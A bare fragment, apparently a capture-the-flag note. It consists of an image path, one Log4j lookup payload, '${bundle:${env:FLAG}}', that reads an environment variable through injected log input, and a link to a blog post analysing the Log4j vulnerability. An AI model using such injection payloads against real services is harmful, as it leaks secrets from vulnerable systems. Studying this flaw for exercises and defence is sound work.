 ${bundle:${env:FLAG}}

https://blog.play2win.top/2021/12/16/log4j%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#%E8%AF%BB%E5%8F%96%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6
